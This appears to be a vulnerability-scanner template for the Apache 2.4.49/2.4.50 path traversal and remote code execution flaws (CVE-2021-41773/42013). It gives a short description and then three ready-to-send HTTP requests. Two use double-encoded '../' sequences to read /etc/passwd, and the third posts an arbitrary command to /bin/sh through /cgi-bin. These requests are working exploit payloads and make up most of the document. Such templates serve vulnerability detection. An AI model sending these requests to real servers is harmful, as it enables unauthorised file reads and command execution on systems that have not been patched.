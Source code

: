 # Apache 2.4.49/2.4.50 - Path Traversal and Remote Code Execution

## Description

- A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49 and 2.4.50. An attacker could use a path traversal attack to map URLs to files outside the expected document root. If files outside of the document root are not protected by "require all denied" these requests can succeed. Additionally, this flaw could leak the source of interpreted files like CGI scripts. In certain configurations, for instance if mod_cgi is enabled, this flaw can lead to remote code execution. This issue only affects Apache 2.4.49 and 2.4.50 and not earlier versions. Note - CVE-2021-42013 is due to an incomplete fix for the original vulnerability CVE-2021-41773.

- severity - critical
- tags - cve,cve2021,lfi,apache,rce,misconfig,traversal,kev

## Requests

### Step - 1

```
GET /icons/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd HTTP/1.1
Host: {{Hostname}}
Origin: {{BaseURL}}


```

### Step - 2

```
GET /icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd HTTP/1.1
Host: {{Hostname}}
Origin: {{BaseURL}}


```

### Step - 3

```
POST /cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/sh HTTP/1.1
Host: {{Hostname}}
Origin: {{BaseURL}}
Content-Type: application/x-www-form-urlencoded

echo Content-Type: text/plain; echo; {{cmd}}


```
